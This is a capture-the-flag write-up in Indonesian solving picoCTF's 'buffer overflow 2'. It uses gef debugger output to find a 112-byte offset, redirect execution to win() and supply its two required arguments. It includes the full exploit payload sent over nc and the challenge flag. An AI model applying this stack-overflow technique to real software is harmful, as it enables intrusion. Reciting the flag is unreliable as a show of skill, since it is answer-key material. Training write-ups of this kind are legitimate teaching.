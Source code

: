 <h1>buffer overflow 2</h1>
<h3>Description</h3>
<p>Control the return address and arguments
This time you'll need to control the arguments to the function you return to! Can you get the flag from this <a href='https://artifacts.picoctf.net/c/144/vuln'>program</a>?
You can view source <a href='https://artifacts.picoctf.net/c/144/vuln.c'>here</a>. And connect with it using nc saturn.picoctf.net 50209</p>
<h3>Solution</h3>
<p>Pertama check fungsi dari program</p>

```console
gef➤  info func
All defined functions:

Non-debugging symbols:
0x08049000  _init
0x080490e0  printf@plt
0x080490f0  gets@plt
0x08049100  fgets@plt
0x08049110  getegid@plt
0x08049120  puts@plt
0x08049130  exit@plt
0x08049140  __libc_start_main@plt
0x08049150  setvbuf@plt
0x08049160  fopen@plt
0x08049170  setresgid@plt
0x08049180  _start
0x080491c0  _dl_relocate_static_pie
0x080491d0  __x86.get_pc_thunk.bx
0x080491e0  deregister_tm_clones
0x08049220  register_tm_clones
0x08049260  __do_global_dtors_aux
0x08049290  frame_dummy
0x08049296  win
0x08049338  vuln
0x08049372  main
0x080493f0  __libc_csu_init
0x08049460  __libc_csu_fini
0x08049465  __x86.get_pc_thunk.bp
0x0804946c  _fini
```
<p>disana terdapat fungsi win() dengan address 0x08049296, dan dilihat dari source codenya</p>

```c
void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}
```
<p>Dari source code ada gets() dari fungsi vuln yang bisa terjadi overflow, dan juga fungsi win() tanpa pemangilan fungsi, kita dapat memanfaatkan gets() pada vuln(), dengan mencari overflow gets()</p>

```console
gef➤  pattern create 200
[+] Generating a pattern of 200 bytes (n=4)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
[+] Saved as '$_gef0'
gef➤  r <<< "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab"
Starting program: /home/xisco/Downloads/vuln <<< "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab"
[Thread debugging using libthread_db enabled]
.................................................................................
Please enter your string: 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab

Program received signal SIGSEGV, Segmentation fault.
0x62616164 in ?? ()
.................................................................................
$eax   : 0xc9      
$ebx   : 0x62616162 ("baab"?)
$ecx   : 0xf7e2a9b8  →  0x00000000
$edx   : 0x0       
$esp   : 0xffffd3b0  →  "eaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqa[...]"
$ebp   : 0x62616163 ("caab"?)
$esi   : 0x080493f0  →  <__libc_csu_init+0000> endbr32 
$edi   : 0xf7ffcba0  →  0x00000000
$eip   : 0x62616164 ("daab"?)
$eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63 
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x62616164
.................................................................................
gef➤  pattern search 0x62616164
[+] Searching for '64616162'/'62616164' with period=4
[+] Found at offset 112 (little-endian search) likely
```
<p>Overflow terjadi pada offset 112, selanjutnya check fungsi dari program yaitu address dari win() = 0x08049296</p>
<p>Next, test payload ke gef dan tambah string 20 digit "bbbbbbbbbbbbbbbbbbbb"</p>
<pre>
payload=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x96\x92\x04\x08
</pre>
<p>dan juga di fungsi win() ada required argumen 1 dan argumen 2 yang harus dipenuhi untuk print buf atau FLAG, kita bisa set breakpoint pada masing2 argumen</p>

```console
gef➤  b *0x08049315
Breakpoint 1 at 0x8049315
gef➤  b *0x0804930c
Breakpoint 2 at 0x804930c
gef➤  r <<< $(echo -e "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x96\x92\x04\x08")
    0x8049303 <win+006d>       push   eax
    0x8049304 <win+006e>       call   0x8049100 <fgets@plt>
    0x8049309 <win+0073>       add    esp, 0x10
●→  0x804930c <win+0076>       cmp    DWORD PTR [ebp+0x8], 0xcafef00d
    0x8049313 <win+007d>       jne    0x804932f <win+153>
●   0x8049315 <win+007f>       cmp    DWORD PTR [ebp+0xc], 0xf00df00d
    0x804931c <win+0086>       jne    0x8049332 <win+156>
    0x804931e <win+0088>       sub    esp, 0xc
    0x8049321 <win+008b>       lea    eax, [ebp-0x4c]
───────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x804930c in win (), reason: BREAKPOINT
─────────────────────────────────────────────────────────── trace ────
[#0] 0x804930c → win()
[#1] 0xffffd300 → or al, BYTE PTR [eax]
──────────────────────────────────────────────────────────────────────
gef➤  x/s $ebp+0x8
0xffffd3b4:	"\330\025\374\367\260\032\374", <incomplete sequence \367>
```
<p>pada ebp+0x8(argument 1) merupakan nilai compare untuk 0xcafef00d, yang isinya \330\025\374\367\260\032\374, maka tidak memenuhi dan return program, begitu juga dengan argument ke 2, dan ketika kita tambah string b 10x = bbbbbbbbbb</p>

```console
gef➤  r <<< $(echo -e "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x96\x92\x04\x08bbbbbbbbbb")
Starting program: /home/xisco/Downloads/vuln <<< $(echo -e "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x96\x92\x04\x08bbbbbbbbbb")
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Please enter your string: 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�bbbbbbbbbb

Breakpoint 2, 0x0804930c in win ()

[ Legend: Modified register | Code | Heap | Stack | String ]
─────────────────────────────────────────────────────── registers ────
$eax   : 0xffffd360  →  "WIN\n"
$ebx   : 0x0804c000  →  0x0804bf10  →  <_DYNAMIC+0000> add DWORD PTR [eax], eax
$ecx   : 0x0       
$edx   : 0x0804e248  →  0x00000000
$esp   : 0xffffd354  →  "aaaaaaaaaaaaWIN\n"
$ebp   : 0xffffd3ac  →  "aaaabbbbbbbbbb"
$esi   : 0x080493f0  →  <__libc_csu_init+0000> endbr32 
$edi   : 0xf7ffcba0  →  0x00000000
$eip   : 0x0804930c  →  <win+0076> cmp DWORD PTR [ebp+0x8], 0xcafef00d
$eflags: [zero carry parity adjust SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63 
─────────────────────────────────────────────────────────── stack ────
0xffffd354│+0x0000: "aaaaaaaaaaaaWIN\n"	 ← $esp
0xffffd358│+0x0004: "aaaaaaaaWIN\n"
0xffffd35c│+0x0008: "aaaaWIN\n"
0xffffd360│+0x000c: "WIN\n"
0xffffd364│+0x0010: 0x61616100
0xffffd368│+0x0014: "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"
0xffffd36c│+0x0018: "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"
0xffffd370│+0x001c: 0x61616161
───────────────────────────────────────────────────── code:x86:32 ────
    0x8049303 <win+006d>       push   eax
    0x8049304 <win+006e>       call   0x8049100 <fgets@plt>
    0x8049309 <win+0073>       add    esp, 0x10
●→  0x804930c <win+0076>       cmp    DWORD PTR [ebp+0x8], 0xcafef00d
    0x8049313 <win+007d>       jne    0x804932f <win+153>
●   0x8049315 <win+007f>       cmp    DWORD PTR [ebp+0xc], 0xf00df00d
    0x804931c <win+0086>       jne    0x8049332 <win+156>
    0x804931e <win+0088>       sub    esp, 0xc
    0x8049321 <win+008b>       lea    eax, [ebp-0x4c]
───────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x804930c in win (), reason: BREAKPOINT
─────────────────────────────────────────────────────────── trace ────
[#0] 0x804930c → win()
──────────────────────────────────────────────────────────────────────
gef➤  x/s $ebp+0x8
0xffffd3b4:	"bbbbbb"
```
<p>output dari $ebp+0x8 jadi 6x bbbbbb, artinya 4x bbbb akan menjadi base pointer, dan 6x bbbbbb jadi nilai compare argument 1 dan begitu juga argument 2</p>
<pre>
payload=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x96\x92\x04\x08bbbb\r\xf0\xfe\xca\r\xf0\r\xf0
</pre>

```console
root@xisco-VirtualBox:/home/xisco/Downloads# echo -e "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x96\x92\x04\x08bbbb\r\xf0\xfe\xca\r\xf0\r\xf0" | nc saturn.picoctf.net 61874
Please enter your string: 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa���aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�bbbb
picoCTF{argum3nt5_4_d4yZ_27ecbf40}
```
<h3>Flag</h3>
<pre>
picoCTF{argum3nt5_4_d4yZ_27ecbf40}
</pre>
